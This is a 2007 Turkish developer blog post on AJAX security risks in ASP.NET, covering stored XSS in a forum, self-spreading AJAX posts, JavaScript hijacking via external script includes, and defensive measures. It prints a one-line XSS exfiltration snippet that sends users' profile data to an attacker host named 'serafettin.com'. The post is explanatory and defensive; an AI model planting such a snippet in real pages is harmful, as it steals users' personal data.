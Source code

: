 ```yaml
---
FallbackID: 1729
Title: AJAX ve Güvenlik Sorunları
PublishDate: 4/20/2007
EntryID: 4ca7f74e-dcc3-4f5e-8b97-3b84d6ca2d44
IsActive: True
Section: software
MinutesSpent: 0
Tags: AJAX
---
```

**AJAX** artık neredeyse her web projesinde kullanılır oldu. Bazı
projelerde ufak noktalarda kendini gösteren AJAX yeni nesil projelerde
ise neredeyse tüm iş katmanına yayılmış durumda. Bu noktada maalesef
AJAX'ın getirdiği heyecanın kısmi sersemliği ile güvenlik konusunda
kaygılar unutulmuş durumda. Oysa eskiden beridir **XSS
(Cross-Site-Scripting)** bizim JavaScript tarafındaki en önemli
düşmanlarımızdan. Ne kadar ilginçtir ki AJAX'ın göbeğinde de JavaScript
bulunuyor.

**XSS yeni bir güvenlik sorunu değil ki!?**

Kesinlikle değil. Cross-Site-Scripting uzun süredir bilinen, tanınan ve
koruma yöntemleri geliştirilmiş bir sorun. Fakat **XSS**'in yaratacağı
sorunlar AJAX ile binlerce kat büyüyor. Nasıl mı oluyor? Hemen bir örnek
üzerinden gidelim. Varsayalım bir forum uygulaması programlıyorsunuz ve
kullanıcıların attıkları mesajların içeriğini kontrol etmiyorsunuz.
Ziyaretçilerden biri mesajının arasına kendi hazırlamış olduğu
JavaScript kodunu yerleştirdi ve mesajı yolladı. Mesajı direk sitede
gösterdiğinizi varsayalım (Kötü bir programcısınız :)). Söz konusu
kullanıcının gönderdiği JavaScript kodu tüm kullanıcıların
bilgisayarında çalışacaktır. Bu noktada basit bir saldırı tipi olarak
uygun JavaScript kodu ile o sayfaya giren tüm kullanıcıların başka bir
adrese yönlendirilmesinden bahsedebiliriz (**fishing**). Forumunuzda
mesajların gönderimi ve gösterimi için AJAX kullandığınızı varsayalım.
Kullandığınız AJAX kodu, yani JavaScript kodunuz tüm kullanıcılara
gidiyor ve kaynak içerisinde incelenebiliyor. Biraz önce bahsettiğimiz
"kötü ziyaretçi" sizin AJAX metodlarınızı kullanarak forumunuza mesaj
atan bir JavaScript fonksiyonu yazarak mesajına eklerse neler olur?
Mesajın gözüktüğü sayfayı açan herkes o JavaScript metodunu çalıştırmış
olur böylece bir anda forumunuzdaki her kullanıcının yüzlerce mesaj
atması gibi bir durumla karşılaşabilirsiniz. Tüm bu işlem AJAX tarafında
yapıldığı için de kimse farkına varmayacaktır.

Aynı forum uygulamamızla ilgili başka bir durumdan bahsedelim. Forum
uygulamasını programlarken kullanıcıların bilgilerini de
değiştirebilecekleri bir sayfa hazırladınız. Tüm kullanıcıları bilgileri
AJAX ile sayfaya yerleşiyor ve kaydedilebiliyor. Tabi ki tüm bu AJAX
metodlarınız foruma mesaj atılan ve mesajların gösterildiği metodlar ile
sayfada yer alıyor. Kötü kullanıcı Şerafettin :) sitenizde
kullanıcıların bilgilerini profil sayfasına yerleştiren, yani
veritabanından çeken AJAX metodlarını kullanan bir JavaScript komutu
yazarak mesajına ekleyip gönderdi. Her kullanıcı forumda gezerken
Şerafettin'in yazdığı kod söz konusu kullanıcının bilgileri alacak. Peki
sonra ne yapacak? Bu bilgisi aşağıdaki gibi klasik bir teknikle kendi
sitesine aktaracak :)

<span> (<span style="color: blue;">new</span> Image()).src = <span
style="color: rgb(163, 21, 21);">
"http://serafettin.com/bilgigeldi.php?data="</span> +
ProfilBilgisi;</span>

Gözümüzün önünde tüm kullanıcıların profil bilgileri Şerafettin'in
mesajının bulunduğu sayfaya girdikleri gibi elden gidiyor.

XSS'i engellemek, yani kullanıcıların web sitenize gönderdiği içeriği
filtrelemek için **Microsoft** tarafından **ASP.NET** geliştiricileri
için hazırlanmış olan [**Anti-Cross Site
Script**](http://www.microsoft.com/downloads/details.aspx?familyid=9a2b9c92-7ad9-496c-9a89-af08de2e5982&displaylang=en)
kütüphanesini kullanabilirsiniz.

**JavaScript Hijacking**

Bir diğer AJAX sorunlarıdan biri de sitemiz dahilindeki AJAX
metodlarının başka sitelerde de kullanılabilmesi. Eğer AJAX
metodlarınızı harici bir JavaScript dosyasına yerleştirerek sayfanıza
linklediyseniz aynı linklemeyi başka siteler de yapabilir. Farklı alan
adları arasında XMLHttpRequest objelerinin çalışmaması ile ilgili
güvenlik düzenlemeleri olmasına karşın bu durumla ilgili herhangi bir
düzenleme yapmak pek mümkün değil.

<span style="color: blue;"> \<</span><span
style="color: rgb(163, 21, 21);">script</span><span> <span
style="color: red;"> language</span><span
style="color: blue;">="javascript"</span> <span style="color: red;">
src</span><span
style="color: blue;">="http://www.deneme.com/WebService.asmx/js"\>\</</span><span
style="color: rgb(163, 21, 21);">script</span><span
style="color: blue;">\></span></span>

Yukarıdaki kodu kullanarak deneme.com sitesinde kullanılmak üzere
hazırlanmış JavaScript metodlarını herhangi bir sitede, sayfada
kullanabilirsiniz. Dikkat ederseniz özellikle örnek içerisinde
**ScriptService** özelliğine sahip bir ASP.NET web servisi kullandım.
Bizim genelde ASP.NET AJAX tarafında sayfamıza linklediğimiz harici AJAX
metodları web servislerinde yer alıyor.\

Peki bu güvenlik açığına karşı ne yapabiliriz? Herhangi birşey yapmanız
gerekmiyor :) Microsoft bu açığı öngörmüş ve HTTP GET metodlarını web
metodlarına kapatmış. Yukarıdaki kod kullanılarak yapılacak bir talep
GET metodu ile yapılacaktır, herhangi bir şekilde POST metodu ile
yapılması mümkün değil. Siz web methodlarınıza **UseHttpGet:=True**
özelliği vermediğiniz sürece herhangi bir sorun olmayacaktır.

**Sonuç**

Benim tavsiyem AJAX kullanırken özellikle veri alımında, yani
veritabanına kaydedilecek veriyi kullanıcıdan alırken kullandığınız
tekniklerde dikkatli davranmanız. Eğer **Forms Authentication**
kullanıyorsanız web servislerinizi de korumaya almanızda fayda var. Tüm
bu tekniklerin haricinde sunucu taraflı sistem yükü fazla olsa da
Session bazlı ID'ler tanımlayarak sayfanızdaki AJAX işlemlerine gerçek
zamanlı parametre olarak ekleyerek gelen taleplerin sizin sisteminizden
gelip gelmediğini de kontrol edebilirsiniz. Son olarak XSS'e karşı
korunmayı da unutmayın.\


